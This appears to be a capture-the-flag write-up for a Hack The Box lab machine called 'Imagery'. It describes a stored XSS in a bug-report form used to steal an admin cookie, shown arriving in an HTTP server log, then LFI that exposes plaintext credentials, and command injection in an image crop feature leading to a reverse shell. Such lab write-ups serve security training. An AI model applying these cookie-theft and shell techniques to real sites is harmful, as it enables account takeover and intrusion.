 in the footer section we can see the multiple navigation there i explored those i found the report bug is vulnerable to 
this thing.

---
<img width="1729" height="537" alt="image" src="https://github.com/user-attachments/assets/f68cbe62-cced-4ad6-9cbd-f455d086802a" />

With these section i can execute a stored XSS bug and we can obtain a cookie.

---

I just got the admin cookie via these stores xss and i moved the with admin panel.
```bash
┌──(sabeshan㉿kali)-[~/HTB/season9/imagery]
└─$ sudo python3 -m http.server
[sudo] password for sabeshan: 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.88 - - [04/Oct/2025 09:56:21] code 404, message File not found
10.10.11.88 - - [04/Oct/2025 09:56:21] "GET /session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aOCiIQ.nRNSOI6VqpnOhphxWJi3RoE9Ajc HTTP/1.1" 404 -
10.10.11.88 - - [04/Oct/2025 09:56:23] code 404, message File not found
10.10.11.88 - - [04/Oct/2025 09:56:23] "GET /favicon.ico HTTP/1.1" 404 -
^C
Keyboard interrupt received, exiting.
```

---

And now i can access the admin panel via stealed admin cookie.
<img width="1919" height="855" alt="image" src="https://github.com/user-attachments/assets/929305ec-f762-4a34-bc70-0363e37f821b" />

---

I just get the the LFI and get the db.json and i have the credentials of testuser and admin.
<img width="1919" height="957" alt="image" src="https://github.com/user-attachments/assets/c288f933-e0a9-430e-9d9d-581136282af6" />

---

I got the credentials for
```bash
testuser@imagery.htb:iambatman
admin@imagery.htb:
```

---

then I upload the image and use it to get the file and then i navigate to gallery --> transformed --> there is option called crop there
and i used it to find the thing.
<img width="1919" height="910" alt="image" src="https://github.com/user-attachments/assets/2be62ab4-6742-43a2-9e23-a3b12bcedec7" />

and i use the revershell and I got the user as web.

---
<img width="1577" height="812" alt="image" src="https://github.com/user-attachments/assets/828655b7-4bda-468f-8885-b9ad0bf8c1ab" />
